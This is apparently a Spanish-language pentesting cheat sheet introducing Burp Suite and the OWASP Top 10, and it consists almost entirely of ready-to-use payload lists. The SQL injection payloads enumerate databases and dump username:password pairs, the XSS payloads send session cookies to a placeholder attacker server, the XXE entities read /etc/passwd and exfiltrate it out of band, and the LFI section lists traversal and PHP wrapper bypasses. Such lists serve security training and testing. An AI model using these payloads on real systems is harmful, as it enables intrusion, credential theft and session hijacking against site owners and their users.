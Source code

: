 ### Introducción a BurpSuite


OWASP TOP 10 y vulnerabilidades web
===================================

### SQL Injection (SQLI)
 - 1'
 - 1' order by 100--
 - 1' union select 1,2--
 - 1' union select database()--
 - 1' union select group_concat(schema_name) from information_schema.schemata limit 0,1
 - 1' union select group_concat(table_name) from information_schema.tables where table_schema = '$base' limit 0,1
 - 1' union select group_concat(column_name) from information_schema.columns where table_schema = '$base' and table_name = '$tabla' limit 0,1
 - 1' union select group_concat(username,0x3a,password) from usuarios
 - 1' and sleep(5)

### Cross-Site Scripting (XSS) [1/2]
 - <script>alert("XSS")</script>
 - <script>window.location.href = "http://misitio"</script>
 - <script src="http://misitio/xss.js"></script>
 - <script>fetch(`http://tuservidor.com/?cookie=${encodeURIComponent(document.cookie)}`, { method: 'GET', mode: 'no-cors'});</script>
 - <img src="http://tuservidor.com/?cookie="+document.cookie style="display:none;" alt="imagen" width="1" height="1">

### Cross-Site Scripting (XSS) [2/2]

### XML External Entity Injection (XXE)
 - <!DOCTYPE foo [<!ENTITY xxe "miEntidad">]>
 - <!DOCTYPE foo [<!ENTITY xxe SYSTEM "miEntidad">]>
 - <!DOCTYPE foo [<!ENTITY miArchivo SYSTEM "file:///etc/passwd">]>
 - <!DOCTYPE foo [<!ENTITY xxe SYSTEM "miEntidad">]>
 - <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://misitio/xxe.dtd"> %xxe; ]>
 - <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://misitio/?file=%file;'">">
   %eval;
   %exfil;

### Local File Inclusion (LFI)
 - ?file=/etc/passwd
 - ?file=../../../../../../etc/passwd
 - ?file=....//....//....//....//....//....//etc/passwd
 - ?file=/etc//passwd
 - ?file=/etc/./passwd
 - ?file=/et?/?asswd
 - ?file=/etc/passwd%00
 - ?file=/etc/passwd/.
 - ?file=expect://whoami
 - ?file=php://filter/convert.base64-encode/resource=/etc/passwd
 - ?file=php://filter/read=string.rot13/resource=/etc/passwd
 - ?file=php://filter/convert.iconv.UTF8.UTF7/resource=/etc/passwd
 - ?file=php://filter/convert.iconv.utf-8.utf-16/resource=/etc/passwd
 - ?file=php://input (POST)
 - ?file=data://text/plain;base64,AAA==
 - php://memory
 - php://temp
 - https://github.com/synacktiv/php_filter_chain_generator

